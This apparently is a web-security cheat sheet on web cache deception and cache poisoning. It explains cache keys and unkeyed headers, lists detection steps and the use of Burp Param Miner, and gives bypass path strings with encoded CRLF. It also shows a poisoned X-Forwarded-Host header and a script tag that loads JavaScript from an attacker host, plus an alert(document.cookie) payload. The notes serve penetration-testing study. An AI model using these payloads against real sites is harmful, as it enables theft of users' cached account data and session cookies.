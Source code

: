 # Basic
- Cache servers (CDN) cache static contents based on extensions. They decide to send the request to the upstream or not, based on **Cache Key**.
  - `Scheme|Method|Host|Path`  →  `https|GET|example.com|/news/show.php?id=1`
- **UnKeyed Input:** Parameters (headers) that doesn't affect the **Cache Key**.
  - Change a request header  →  Response header changes from `hit` to `miss`  →  the header is in **Cache Key**.
- Cache related headers:
  - `miss`: The request hasn’t been cached so far. 
  - `hit`: The **Cache Key** exist in CDN and the response comes from CDN (and not from upstream).

# Web Cache Deception
- Force victim to store his sensitive information into cache, then attacker read them from Cache server.
  -  Victim  →  `https://www.example.com/account.php/mamad.css`  →  Information is cached (`MISS`)
  -  Attacker  →  `https://www.example.com/account.php/mamad.css`  →  Gets victim's information (`HIT`)
### Detection
- Checking if the target is behind CDN or not. (find an static resource)
- Look for APIs which returns sensitive information.
- Try to manipulate request to force the CDN to cache it. (make it look static)
- Each CDN provider has some extensions to cache. ([Cloudflare](https://developers.cloudflare.com/cache/concepts/default-cache-behavior/))
  - Sometimes there is no obvious documentation (Akamai), read write-ups to collect 
  ```
  jpg,jpeg,png,gif,webp,bmp,ico,css,js,pdf,doc,docx,xls,xlsx,ppt,pptx,mp3,mp4,m4a,m4v,ogg,ogv,webm,flv,swf,woff,woff2,eot,ttf,otf,zip,tar,gz,tgz,rar
  ```  
### Bypass 
- `.css` is blocked:
  ```bash
  %2ecss
  /;test.css
  /!test.css
  /.css
  /backend-api/conversations     →   /backend-api/conversations%0A%0D-testtest.css
  /api/auth                      →   /api/auth/%0A%0D%09session.css
  ```

# Web Cache Poisoning
- Store malicious content in the cache server to XSS (stored) other users.
- We should look for **UnKeyed** headers that reflects in the page. (like `X-Forwarded-Host`)
  - The response should be cacheable.
### Detection
- Identify if the application uses cache server or not.
- Scan various requests by [](https://www.notion.so/Useful-Public-Tools-295b8c4744ef427b8c27a04dab8386fb?pvs=21), then manually identify an **unKeyed input**.
  - Add _Param Miner_ extension from BApp Store of BurpSuite.
  - Right-click on Request  →  Extensions  →  Param Miner  →  Guess params  →  Guess headers
  - Add [wordlist](https://github.com/PortSwigger/param-miner/blob/master/resources/headers) to `custom wordlist path`.
  - Check running of the extension in **Logger** tab of BurpSuite.
  - Check if there is an `secret uncached header` in: Target  →  Site map
    ```
    X-Forwarded-Host: icollab.info
    ```
- Scan various requests manually and look for Cookie reflection, then manually work on it.
  ```html
  <script type="text/javascript" src="//icollab.info/resources/js/tracking.js"></script>
  ```
- Create `/resources/js/tracking.js` in attacker server and put maliciuos code in it.
  ```html
  alert(document.cookie)
  ```

# Resource
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Web%20Cache%20Deception
- https://book.hacktricks.xyz/pentesting-web/cache-deception
